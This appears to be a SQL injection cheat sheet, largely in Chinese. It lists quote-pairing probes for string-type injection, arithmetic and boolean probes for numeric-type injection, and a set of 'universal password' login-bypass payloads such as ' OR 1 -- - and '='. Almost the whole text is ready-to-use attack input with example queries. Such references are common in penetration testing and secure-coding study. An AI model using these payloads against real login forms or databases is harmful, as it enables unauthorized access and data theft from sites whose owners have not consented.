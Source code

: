 正确意味这个查询是有效的(如正常一样有内容展示)

__字符型__

	Given the query SELECT * FROM Table WHERE id = '1';
	
	'	False
	''	True
	"	False
	""	True
	\	False
	\\	True
	
	例子：
	SELECT * FROM Articles WHERE id = '1''';
	SELECT 1 FROM dual WHERE 1 = '1'''''''''''''UNION SELECT '2';

	注意：

	* 只要它们配对，就可以使用尽可能多的撇号和引号
	* 可以在引号之后继续拼接语句
	* 引号逃逸引号

__数字型__

	Given the query SELECT * FROM Table WHERE id = 1;
	
	AND 1	True
	AND 0	False
	AND true	True
	AND false	False
	1-false	Returns 1 if vulnerable
	1-true	Returns 0 if vulnerable
	1*56	Returns 56 if vulnerable
	1*56	Returns 1 if not vulnerable
	
	Example:
	SELECT * FROM Users WHERE id = 3-2;
	Notes:
	
	true is equal to 1.
	false is equal to 0.

__万能密码__

	Given the query SELECT * FROM Table WHERE username = '';
	
	' OR '1
	' OR 1 -- -
	" OR "" = "
	" OR 1 = 1 -- -
	'='
	'LIKE'
	'=0--+
	
	Example:
	SELECT * FROM Users WHERE username = 'Mike' AND password = '' OR '' = '';
